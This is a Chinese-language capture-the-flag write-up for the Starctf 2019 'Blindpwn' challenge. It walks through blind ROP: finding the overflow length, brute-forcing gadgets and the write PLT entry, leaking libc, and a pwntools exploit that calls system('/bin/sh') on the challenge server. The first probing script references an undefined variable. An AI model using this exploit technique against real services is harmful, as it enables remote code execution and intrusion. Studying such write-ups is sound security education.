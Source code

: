 ```yaml
---
title: Starctf2019_Blindpwn
date: 2019-04-29 10:51:58
tags:
---
```

Blindpwn ...不能想当然...
<!--more-->
# start
[binary][1]


之前在[ctfwiki][0]上看到过
上面流程介绍的比较清楚了...

# First
题目给了信息
```s
checksec:
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

file libc:
libc-2.23.so: ELF 64-bit LSB shared object,  
x86-64, version 1 (GNU/Linux), dynamically  
linked, interpreter /lib64/ld-linux-x86-64.so.2,    
BuildID[sha1]=b5381a457906d279073822a5ceb2
```
发现是x64没有`canary`&`pie`估计是简单的栈溢出所以先确定溢出长度
```python
from pwn import *
context.log_level='debug'
#p=process('./')
for x in range(0x0,0x100):
	p=remote("34.92.37.22",10000)
	p.sendafter("!\n","A"*n)
	p.interactive()
```

当覆盖掉了返回地址时就会出现奇怪的东西...从而确定长度==0x28
# 寻找pop rdi,ret
这个`gadget`比较关键.
我尝试编译了一个差不多的`binary`
```python
#include<stdio.h>
void vul()
{
	char buf[0x20];
	puts("nier");
	read(0,buf,0x100);
	puts("good bye");	
}
int main()
{
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
	vul();
}
```
编译命令
`gcc main.c -o main -fno-stack-protector`
反编译后发现通用`gadget`位置在`0x00000000040071E`
而且顺序从低地址`0x000000000400000`开始是
```s
一些常量
.init段
.plt
.plt.got
code段
    start
    deregister_tm_clones
    register_tm_clones
    __do_global_dtors_aux
    frame_dummy
    vul
    main
    __libc_csu_ini*******
     __libc_csu_fini
     ...
```
我们的通用`gadget`是
```arm
.text:000000000040071A 5B                                      pop     rbx
.text:000000000040071B 5D                                      pop     rbp
.text:000000000040071C 41 5C                                   pop     r12
.text:000000000040071E 41 5D                                   pop     r13
.text:0000000000400720 41 5E                                   pop     r14
.text:0000000000400722 41 5F                                   pop     r15
.text:0000000000400724 C3                                      retn
```
所以我们从`0x000000000400000+0x600`开始逐字节爆破`retn`这个`gadget`
将上一步得出的结果地址`-1,-2`测试是否是`pop ret`
将上一步得出的结果地址`-3,-4`测试是否是`pop pop ret`
....
直到得到的结果只有一个那么那个`gadget-1`应该就是我们要找的`pop rdi ret`
如果找不到换个区域找...

# 寻找leak
对于有输出的程序没开pie的程序我们可以利用其输出函数`dump`更多内存.
常用的有啥
```arm
puts
printf
write
...
```
* `puts`和`printf`都可以通过`pop rdi ret `来设置参数
* `write `可以同 `pop rdi ret pop rsi pop r15 ret`来设置参数一般`rdx`只要不是运气太差就不会是`0`
* plt地址以0xn0结尾所以只要爆破`0x000000000400000+0x300+0x10*n`就可以了


一开始想当然以为是`puts`爆到怀疑人生....过了2个多小时吃了个饭想好像我找`pop rdi`的时候有爆出一堆东西...复现了一下发现爆出了0x100字节...然后就想到了`read`的`rdx`可以被`write`用上了....于是才想到`write`
...有了`write`就可以直接`dump`内存然后`leak libc`and `get shell`

# exp
```python
from pwn import *
context.log_level='debug'
#p=process('./')
start=0x400570
got=0x400520
rdi=0x400784-1
rsi=rdi-2
for x in range(0x0,1):
	p=remote("34.92.37.22",10000)
	p.sendafter("!\n","A"*0x28+p64(rdi)+p64(1)+p64(rsi)+p64(0x601018)+p64(0)+p64(got)+p64(start)[:-1])
	base=u64(p.read(8))-(0x0f72b0)
	log.info(hex(base))
	p.sendafter("!\n","A"*0x28+p64(rdi)+p64(0x18cd57+base)+p64(base+0x045390))
	p.interactive()
```
# 总结
之前看wiki上的以为很难见 其实挺有趣的...注意write...
不要想当然认为有logo用的就是puts....

[0]:https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/medium-rop/#brop
[1]:https://github.com/n132/Watermalon/tree/master/Starctf_2019